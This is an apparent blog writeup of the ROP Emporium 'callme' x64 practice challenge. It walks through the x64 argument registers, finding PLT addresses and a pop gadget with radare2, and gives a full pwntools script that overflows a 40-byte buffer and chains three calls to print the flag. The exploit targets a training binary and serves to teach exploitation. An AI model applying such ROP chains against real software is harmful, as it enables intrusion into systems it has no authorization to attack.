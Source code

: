 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x64)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium challenge-3
tags: rop-emporium callme x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeefdeadbeef`, 
`0xcafebabecafebabe`, and `0xd00df00dd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
```

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x64-addr.png)

The function addresses we need are
```
callme_one: 0x00400720
callme_two: 0x00400740
callme_three: 0x004006f0
```

Why are we using the `plt` entries for the functions
rather than the calls in `usefulFunction`? When
a `call` instruction is executed, it'll execute the
function while also placing the return address onto
the stack! So once `callme_one()` is finished it
will continue to execute instructions in `usefulFunction`

![call-problem](/images/callme/x64-call-problem.png)

So after we finish `callme_one()`, the program
will exit!


### Adding Arguments
> Is there a gadget which sets the argument registers?
{: .prompt-tip }
Let's take a look at `usefulFunction` in `radare2`
```
s sym.usefulFunction
V
p
```

![useful-asm](/images/callme/x64-useful-asm.png)

There's a helpful section called `usefulGadgets` with,
who would've thought, a useful gadget! It sets the 
first three `x64` argument registers from the stack,
which we already control! The address of this
gadget is `0x0040093c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
call1_addr = 0x00400720
call2_addr = 0x00400740
call3_addr = 0x004006f0
pop_regs_addr = 0x0040093c

# put args into corresponding registers
def set_args(args):
    payload = p64(pop_regs_addr)
    for a in args:
        payload += p64(a)
    return payload

# create payload
payload = b'A' * 40

# callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
args = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
payload += set_args(args)
payload += p64(call1_addr)

# callme_two
payload += set_args(args)
payload += p64(call2_addr)

# callme_three
payload += set_args(args)
payload += p64(call3_addr)

# send payload + receive flag
io = process('./callme')
io.sendline(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag)
```
![flag](/images/callme/x64-flag.png)

## Conclusion
This challenge reinforces the the concept of passing
multiple arguments in `x64`, as well as finding
and chaining gadgets together.

[Previous Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (write4)]({% post_url 2024-06-03-rop-emporium-write4-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[callme x86]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
